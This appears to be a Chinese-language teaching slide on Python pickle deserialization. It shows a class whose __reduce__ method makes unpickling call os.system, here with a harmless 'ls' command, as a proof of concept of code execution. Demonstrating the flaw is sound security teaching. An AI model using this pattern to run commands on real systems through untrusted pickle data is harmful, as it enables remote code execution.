

反序列化
Python反序列化（pickle，cpickle模块）
import pickle
import os
class Test(object):
def __init__(self):
self.a = 1
self.b = '2'
self.c = '3'
def __reduce__(self):
	return (os.system,('ls',))
aa = Test()
bb = pickle.dumps(aa)
print(pickle.loads(bb))